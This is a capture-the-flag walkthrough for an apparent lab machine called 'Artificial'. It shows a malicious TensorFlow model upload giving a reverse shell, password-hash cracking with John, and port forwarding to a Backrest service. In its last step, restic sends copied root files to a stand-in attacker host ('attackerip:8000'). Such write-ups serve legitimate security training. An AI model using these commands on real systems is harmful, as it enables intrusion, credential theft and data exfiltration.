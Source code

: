 # 🤖Artificial

## 🧠Summary
> A quick TCP scan revealed only ports 80 (HTTP) and 22 (SSH). The web app was hosting a TensorFlow model upload interface with a Docker-based environment. Uploaded a crafted malicious model exploiting a known TensorFlow RCE vulnerability to gain a reverse shell. Enumerated internal files, cracked SSH password hash, and gained initial access. Found a backrest-based cron job interface running on internal port 9898. Port forwarded, extracted credentials from .config JSON, logged in, and created a repo with a malicious payload. Triggered the job to dump /root into my listener and captured the root flag.

## ↘️ASCII Visual
```text
[ Nmap ] → 80,22
      |
      v
[ AI model upload panel ]
      |
      v
Upload malicious model → RCE
      |
      v
Reverse shell → dump credentials → crack hash
      |
SSH login (user)
      |
      v
netstat: 127.0.0.1:9898 → Backrest Web UI
      |
      v
Find creds in .config → Login
      |
      v
Create malicious repo → Trigger cron job
      |
Data exfil to my server → /root access → root flag
```

## 🔎Nmap scan
- Ran an nmap scan to discover services:
  ![](./screenshots/nmap_scan.png)
- Found only:
    - 22/tcp - SSH
    - 80/tcp - HTTP

## 🌐Web Enumeration
- Navigated to the HTTP service on port 80.
- Found a site for uploading TensorFlow-based AI models.
- The site gave instructions to upload:
    - Dockerfile
    - requirements.txt
    - Python model script
- Used this blog [TensorFlow RCE Exploit](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model) to craft a payload.
- Uploaded the malicious model and triggered execution via the interface.
![](./screenshots/docker.png)
- Got the reverse shell as a service-level user.
![](./screenshots/reverse_shell.png)

## 📌Loop hole
- Enumerated the system, found a local SQLite DB with login hashes
  ![](./screenshots/database.png)
- Extracted the hashes and cracked them with John:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  ```
- Got valid credentials, logged in via SSH.
- Got user access

## ⚓Foothold
- Ran netstat -tulnp, discovered a service on 127.0.0.1:9898.
- Port-forwarded the service:
  ```bash
  ssh -L 9898:localhost:9898 gael@arificial.htb
  ```
- Found a Backrest Web UI that required login.
- Searched for config files:
  ```bash
  find / -name "backrest*" 2>/dev/null
  ```
- Located .config/backrest/config.json with base64-encoded password.
- Used the decoded creds to log in

## 🧪 Exploitation
- Created a new repo in the cron job panel.
- Wrote a script to dump /root into a backup:
  ```bash
  cp /root/root.txt /tmp/output.txt
  restic -r rest:http://attackerip:8000 backup /tmp
  ```
- Hosted a rest server:
  ```bash
  rest-server --path /var/restic --listen :8000
  ```
- Ran the cron job from the UI.
- Received the dumped data and extracted root.txt
